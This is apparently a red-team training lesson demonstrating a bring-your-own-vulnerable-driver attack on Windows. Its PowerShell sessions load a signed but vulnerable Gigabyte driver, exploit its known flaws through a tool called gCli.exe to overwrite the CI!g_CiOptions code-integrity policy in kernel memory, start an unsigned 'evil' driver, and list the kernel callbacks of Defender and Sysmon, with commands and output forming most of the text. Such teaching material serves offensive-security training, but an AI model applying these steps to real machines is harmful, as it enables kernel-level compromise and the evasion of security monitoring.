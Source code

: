 Loading your own driver can be tricky due to Driver Signature Enforcement (DSE) - a protection that blocks a kernel driver from loading if it's not signed by a trusted authority.  The "legitimate" way to do this is to enable [Test Signing](https://docs.microsoft.com/en-us/windows-hardware/drivers/install/the-testsigning-boot-configuration-option) but there are some significant downsides.

1.  A "Test Mode" watermark is displayed on the desktop.
2.  A reboot is required for changes to take effect.

  

This is the case on the Attacker Windows VM but not on WKSTN-1.

We can see that `evil.sys` does not have a valid signature (it's test signed with the Windows Driver Kit).  We can create a service but not start it.

PS C:\> hostname; whoami
wkstn-1
rto2\cbridges

PS C:\> Get-AuthenticodeSignature -FilePath C:\evil.sys

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
511197FFE44D79226828B9404B1878110D317515  UnknownError                           evil.sys

PS C:\> sc.exe create evilDriver type= kernel binPath= C:\evil.sys
[SC] CreateService SUCCESS

PS C:\> sc.exe start evilDriver
[SC] StartService FAILED 577:

Windows cannot verify the digital signature for this file. A recent hardware or software change might have installed a file that is signed incorrectly or damaged, or that might be malicious software from an unknown source.

![[102. Driver Signature Enforcement.png]]

On the other hand - `gdrv.sys` is a legitimate driver signed by Gigabyte in 2017 which we can load.

PS C:\> Get-AuthenticodeSignature -FilePath C:\gdrv.sys

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
E31B1CE555B78944D20F160DF3BE831F1C638AE3  Valid                                  gdrv.sys

PS C:\> sc.exe create gigabyte type= kernel binPath= C:\gdrv.sys
[SC] CreateService SUCCESS

PS C:\> sc.exe start gigabyte

SERVICE_NAME: gigabyte
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :


![[103. Driver Signature Enforcement.png]]

This driver has two vulnerabilities (CVE-2018-19320 & CVE-2018-19321) which provide arbitrary memory read/write from userland.  During runtime, the driver enforcement policy is located in memory at **CI!g_CiOptions** (where CI is the "Code Integrity Module" DLL, `C:\Windows\System32\ci.dll`).

When a service start request is submitted, this policy value is checked and the driver will be allowed to start (or not).  With an arbitrary write primitive in kernel memory, we can "simply" overwrite the policy value.  This is nicely wrapped up in `gClie.exe`.  Use `-l` to show the relevant addresses.

There's no export for `g_CiOptions`, so the address is calculated based on an offset from `CiInitialize`.

PS C:\> .\gCli.exe -l
FFFFF80772D20000 (CI.dll)
FFFFF80772D5D140 (Ci!CiInitialize)
FFFFF80772D5C004 (CI!g_CiOptions)

  

Use `-d` to disable driver signing, start the evil driver, and then re-enable driver signing with `-e`.

PS C:\> .\gCli.exe -d
[+] Driver Signing has been DISABLED!

PS C:\> sc.exe start evilDriver

SERVICE_NAME: evilDriver
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :

PS C:\> .\gCli.exe -e
[+] Driver Signing has been ENABLED!

PS C:\> .\evilCli.exe -l
[*] Process Callbacks
[00] 0xfffff80772e16540 (cng.sys + 0x6540)
[01] 0xfffff807735b8650 (xen.sys + 0x8650)
[02] 0xfffff80773a95d60 (WdFilter.sys + 0x45d60)
[03] 0xfffff80772c5b4b0 (ksecdd.sys + 0x1b4b0)
[04] 0xfffff80773e7b550 (tcpip.sys + 0x4b550)
[05] 0xfffff807742b88e0 (SysmonDrv.sys + 0x88e0)
[06] 0xfffff80772d97820 (CI.dll + 0x77820)
[07] 0xfffff8077473d1c0 (dxgkrnl.sys + 0xd1c0)
[08] 0xfffff807758eacf0 (peauth.sys + 0x3acf0)
[*] Thread Callbacks
[00] 0xfffff80773a974a0 (WdFilter.sys + 0x474a0)
[01] 0xfffff80773a97200 (WdFilter.sys + 0x47200)
[02] 0xfffff807742b80d0 (SysmonDrv.sys + 0x80d0)
[03] 0xfffff80775c81010 (mmcss.sys + 0x1010)
[*] LoadImage Callbacks
[00] 0xfffff807735b8120 (xen.sys + 0x8120)
[01] 0xfffff807735f3240 (EC2WinUtilDriver.sys + 0x3240)
[02] 0xfffff80773a96710 (WdFilter.sys + 0x46710)
[03] 0xfffff807742bdc10 (SysmonDrv.sys + 0xdc10)
[04] 0xfffff80774e1e940 (ahcache.sys + 0x1e940)

  

  The kernel will bug check the in-memory value against the boot policy.  If it sees a difference, the machine will BSOD.  If you patch the policy value, restore it ASAP.

  

You can dive deeper into drivers by taking our [Offensive Driver Development](https://training.zeropointsecurity.co.uk/courses/offensive-driver-development) course.

